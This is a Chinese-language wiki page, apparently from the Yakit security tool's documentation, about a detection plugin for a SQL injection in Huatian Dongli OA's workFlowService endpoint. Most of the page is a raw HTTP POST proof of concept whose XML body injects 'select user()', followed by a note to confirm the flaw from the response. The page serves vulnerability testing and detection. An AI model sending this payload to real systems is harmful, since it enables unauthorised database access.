

repository: yaklang/yaklang.github.io · page: Yaklab/wiki/DetectionPlug-in/HTDLOA/index.html · generator: docusaurus

---
sidebar_position: 22
---
# 华天动力OA插件使用

## 1 workFlowService SQL注入漏洞

**插件id：**

Yakit正在努力编写~

**测试过程：**

测试网站构造恶意请求包发送

```go
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: identity
Content-Length: 103
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0

<buffalo-call> 
<method>getDataListForTree</method> 
<string>select user()</string> 
</buffalo-call>
```

查看响应包，确认漏洞

![](/img/products/yakit/HTDLOA-1.png)
